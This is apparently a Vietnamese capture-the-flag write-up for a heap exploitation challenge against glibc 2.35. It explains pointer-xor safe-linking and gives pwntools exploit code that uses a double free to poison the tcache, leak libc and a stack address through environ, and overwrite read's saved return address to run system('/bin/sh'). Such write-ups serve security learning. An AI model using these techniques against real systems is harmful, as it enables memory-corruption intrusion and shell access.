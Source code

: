   - Vẫn kỹ thuật cũ nhưng ở version này giá trị fd pointer đã được được thay đổi bằng một phép xor và free_hook lẫn malloc_hook ở libc-2.35 không còn hoạt động do đó ta cũng không thể ghi đè vào đây.
  - Yêu cầu của malloc là chunk & 0xf = 0.
  ```
  #define PROTECT_PTR(pos, ptr) \
    ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
  ```
  - Ban đầu ta sẽ free 1 chunk và leak fd pointer vì đây là chunk đầu nên giá trị fd pointer là giá trị của phép xor với 0, ta có thể dùng giá trị này để xor với chunk mà ta cần cấp phát rồi đưa vào fd pointer.
  - Mục tiêu là thay đổi saverip của hàm read. Đầu tiên sẽ leak địa chỉ libc từ đó leak địa chỉ stack bằng environ để overwrite saverip read.
  - leak giá trị fd pointer, double free và leak libc
  ```
  size = 0x30
book(1, size)
choice(3)
choice(4)
r.recvuntil(b'Content: ')
fd_pointer = r.recv(2)
fd_pointer = u32(fd_pointer + b'\x00'*2)
print(hex(fd_pointer))
book(2, size, b'\x00'*16)
choice(3)

new_fd_pointer = fd_pointer^exe.sym['stderr']
book(2, size, p64(new_fd_pointer))
book(1, size)
book(1, size, b'\xa0')
choice(4)
r.recvuntil(b'Content: ')
libc_leak = r.recv(6)
libc.address = u64(libc_leak + b'\x00'*2) - libc.sym['_IO_2_1_stderr_']
print(hex(libc.address))
  ```
  - double free leak giá trị stack
  ```
  book(1, size)
choice(3)
book(2, size, b'\x00'*16)
choice(3)
print(hex(libc.sym['environ']))
new_fd_pointer = fd_pointer^(libc.sym['environ']-0x10)
book(2, size, p64(new_fd_pointer))
book(1, size)
book(1, size, b'a'*13 + b'bcd')
choice(4)
r.recvuntil(b'abcd')
stack = r.recv(6)
stack = u64(stack + b'\x00'*2)
print(hex(stack))
  ```
  - overwrite saverip read thực thi system('/bin/sh')
  - ![image](https://user-images.githubusercontent.com/113702087/218765174-5b90873a-5ee8-4f12-896c-a91904ee7b60.png)
  - ![image](https://user-images.githubusercontent.com/113702087/218765230-57ae79c1-bd4f-4269-99cd-86c5176b1fa8.png)
  - ![image](https://user-images.githubusercontent.com/113702087/218765325-e1799b12-c8e8-42f0-94a6-4f26ee90f257.png)
